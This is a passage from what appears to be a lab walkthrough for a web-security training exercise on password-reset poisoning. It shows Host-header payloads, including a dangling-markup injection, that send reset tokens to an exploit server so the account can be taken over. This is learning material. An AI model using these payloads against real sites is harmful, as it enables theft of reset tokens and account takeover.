 #### 4. **Test with Exploit Server Domain**

* Replace the `Host` header with your **exploit server domain**, such as:

  ```
  Host: exploit-0a0c00...exploit-server.net
  ```
* Submit the request — if successful, the **password reset link will point to your server**.

<img width="1866" height="625" alt="image" src="https://github.com/user-attachments/assets/b56b960f-1815-4c22-b5c6-31f557e3ffee" />

#### 5. **Testing with Arbitrary Port**

* You can also test if the server accepts arbitrary ports in the Host header:


  ```
  Host: exploit-0a0c00...exploit-server.net:90
  ```
<img width="1830" height="753" alt="image" src="https://github.com/user-attachments/assets/6f1b9aae-4c5b-4b55-8854-cbf2906d6bc2" />

  
* If password still gets reset, it means the application is vulnerable and includes the full Host value (including port) in the reset link.


<img width="1744" height="623" alt="image" src="https://github.com/user-attachments/assets/6a5cc449-9b87-4cbf-9c12-157ce28424c1" />

#### 6. **Injecting a Malicious Host Payload**

* Try injecting the Host header with a URL-prefixed payload like:

  ```bash
      Host: YOUR-LAB-ID.web-security-academy.net:'<a href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?

  ```
* This format tricks the application into generating a password reset link that **sends the token to your server**.

<img width="1896" height="756" alt="image" src="https://github.com/user-attachments/assets/0710c39d-a3a4-4de2-9a2d-e62c695d0a8b" />

#### 7. **Verify on Exploit Server**

* Go to your exploit server's **access log** or monitor incoming requests.
<img width="1911" height="39" alt="image" src="https://github.com/user-attachments/assets/96a29622-08b4-49a8-99c7-2b620036b823" />

* You should see a request containing the **reset token or temporary password**.
* In this test, we are doing this for **wiener** — not carlos.

#### 8. **Login as Wiener**

* Use the stolen reset token or password to **log in as wiener**.

  <img width="1689" height="676" alt="image" src="https://github.com/user-attachments/assets/a5f709f1-0c63-4992-934c-ec983b7448ee" />

* This confirms that the exploit works.
